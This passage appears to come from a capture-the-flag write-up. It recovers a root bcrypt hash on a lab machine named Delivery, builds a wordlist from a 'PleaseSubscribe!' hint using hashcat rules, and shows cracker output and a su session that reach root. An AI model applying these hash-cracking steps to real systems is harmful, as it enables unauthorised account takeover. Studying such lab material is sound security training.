 we found hash for the root user

| user | hash                                                         |
| ---- | ------------------------------------------------------------ |
| root | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |

Cracking the hash of the root user

_Also please create a program to help us stop re-using the same passwords everywhere…. Especially those that are a variant of “PleaseSubscribe!”_ comment that was made on the MatterMost server.

- In order to crack the hash we need to create a wordlist using [hashcat rules](https://github.com/praetorian-inc/Hob0Rules.git)

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates left, minimum 6 needed for performance.
PleaseSubscribe!21 (root)
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

| user | password           |
| ---- | ------------------ |
| root | PleaseSubscribe!21 |

## Root

```bash

maildeliverer@Delivery:/opt/mattermost/config$ su
Password:
root@Delivery:/opt/mattermost/config# cd
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~#

```

[back](/Writeups/writup)
